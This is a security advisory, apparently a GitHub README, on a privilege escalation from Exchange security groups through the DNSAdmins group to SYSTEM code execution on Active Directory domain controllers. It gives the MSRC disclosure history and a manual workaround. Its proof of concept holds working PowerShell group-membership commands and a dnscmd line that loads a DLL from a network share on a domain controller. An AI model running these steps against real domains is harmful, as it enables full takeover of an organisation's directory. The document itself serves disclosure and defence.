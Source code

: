 ## DNSAdmins group DACL privilege escalation

A privilege escalation is possible from the **Exchange Windows permissions** (EWP) 
and from the **Exchange Trusted Subsystem** security groups to control the DNSAdmins group and then compromise the entire prepared Active Directory domain.
This second part was described in [this work from Shay Ber](https://medium.com/@esnesenon/feature-not-bug-dnsadmin-to-dc-compromise-in-one-line-a0f779b8dc83) in 2017


DISCLAIMER: This issue has been responsibly disclosed to MSRC in November 2018 and after a few back and forth emails, they closed the case.
Basically, they could not reproduce the issue in their testing environments. 
However, the DACL of the incriminated object on their side appears to be quite different from the DACL that I observed in several live production AD domains: MSRC side DACL has a few *Deny* ACEs explicitely positioned for the incriminated Exchange security groups, where production side has only *Allow* ACEs.


From there, I can only speculate that either they have an unreleased fix on their testing environments, or their path of Exchange deployment on AD is different
from what is commonly observed on live domains, which are upgraded and not redeployed on CU releases.


* Description of the issue

In up-to-date deployments of Exchange 2016 in Shared permissions (default) or RBAC split permissions, three controlling ACEs are positioned on the "CN=DNSAdmins,CN=Users" group for the **Exchange Windows Permissions** 
and for the **Exchange Trusted Subsystem** security groups.

These ACE are probably positioned during an update or a particular CU install. I have been confirmed they exist on other organizations production environments.

If the aformentionned *Deny* ACEs are positioned on your environment, it is probably *NOT* vulnerable.


| Account | ACE type | Inheritance | Permissions | On property/ Applies to | Comments |
| ------- | -------- | ----------- | ----------- | ----------------------- | -------- |
| Exchange Windows Permissions | Allow ACE | All | WriteProp | ManagedBy / | |
| Exchange Windows Permissions | Allow ACE | All | WriteProp | Member / | |
| Exchange Trusted Subsystem | Allow ACE | All | WriteDACL | / Group | |


* Technical consequence

Any member of Exchange Windows Permissions can add members to DNSAdmins. 

![EWP effective access](DNSAdmins_EWP.png "EWP effective access")


Any member of Exchange Trusted Subsystem can modify DNSAdmins DACL to grant himself permission to add members to it.

![ETS effective access](DNSAdmins_ETS.png "ETS effective access")

The DNSAdmins group has a particular privilege to remotely load DLLs on domain controllers in the SYSTEM context (by design, as MSRC case 38121 reported by Shay Ber). 

* Security Consequence

Any member of the Organization Management group can execute code remotely on the domain controllers in the SYSTEM context, taking complete control of the Active Directory domain.

* Proof of concept

1)
From an Organization Management member account, add yourself to Exchange Windows Permissions
This is possible by default and normal

```
$id = [Security.Principal.WindowsIdentity]::GetCurrent()
$user = Get-ADUser -Identity $id.User
Add-ADGroupMember -Identity "Exchange Windows Permissions" -Members $user
```

2)
LOG OUT AND RELOG THE USERS SESSION to update groups in token

3)
Add yourself to DNSAdmins
This is the problem, it should not be possible

```
$id = [Security.Principal.WindowsIdentity]::GetCurrent()
$user = Get-ADUser -Identity $id.User
Add-ADGroupMember -Identity "DNSAdmins" -Members $user
```

4)
LOG OUT AND RELOG THE USERS SESSION to update groups in token

5)
Choose a domain controller and remotely change a registry key to load a dll (needs specific exports) on next DNS service restart:

```
dnscmd test_domain_controller /config /serverlevelplugindll \\NetworkPath\to\dll
```

* Workaround fix

Manually with LDP: bind as a Domain Admin account with the usual precautions, as you will change the DNSadmins group DACL.

Backup the DACL: 

```
(Get-Acl "AD:\CN=DNSAdmins,CN=Users,DC=...").Sddl | Out-File "dnsadmins_dacl.txt"
```

Locate the "CN=DNSAdmins,CN=Users,DC=..." security group. Disable ACE inheritance and choose to copy existing ACEs. Locate and delete the 3 faulty ACE in the DACL: you can sort by Trustee to see Exchange Windows Permissions and Exchange Trusted Subsystem.

TODO: powershell fix script.

